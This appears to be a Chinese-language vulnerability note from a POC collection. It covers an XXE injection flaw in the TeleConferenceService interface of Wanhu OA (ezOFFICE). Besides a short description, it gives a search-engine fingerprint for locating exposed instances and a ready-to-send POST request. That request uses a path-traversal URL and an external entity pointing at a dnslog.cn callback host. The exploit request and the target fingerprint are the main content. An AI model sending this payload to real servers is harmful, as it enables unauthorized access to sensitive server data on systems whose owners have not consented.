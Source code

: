 # 万户OA TeleConferenceService XXE注入漏洞

## 漏洞描述

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905135417878.png)

验证POC

```html
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![img](../../../.vuepress/public/img/1662357047551-20d92354-25b8-45d0-8be5-fd1437a826ce.png)